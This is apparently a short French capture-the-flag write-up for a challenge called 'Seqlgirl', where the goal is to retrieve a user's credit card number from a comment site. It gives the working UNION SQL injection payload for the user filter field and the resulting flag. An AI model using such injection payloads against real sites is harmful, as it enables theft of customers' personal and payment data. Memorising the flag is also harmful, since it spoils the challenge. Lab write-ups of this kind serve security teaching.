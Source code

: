 # Seqlgirl

# Consigne
Voici un site de commentaires. Retrouvez le numéro de carte de crédit de l'utilisateur Luc Moreau.

## Solution
Après avoir testé différentes injections SQL, on trouve que l'injection suivante fonctionne :
```sql
Mettre cette injection SQL dans le champ Filtrer par User.
```
GamerPro2000' UNION SELECT email,credit_card_number,name FROM users --

## FLAG
5678901234567890
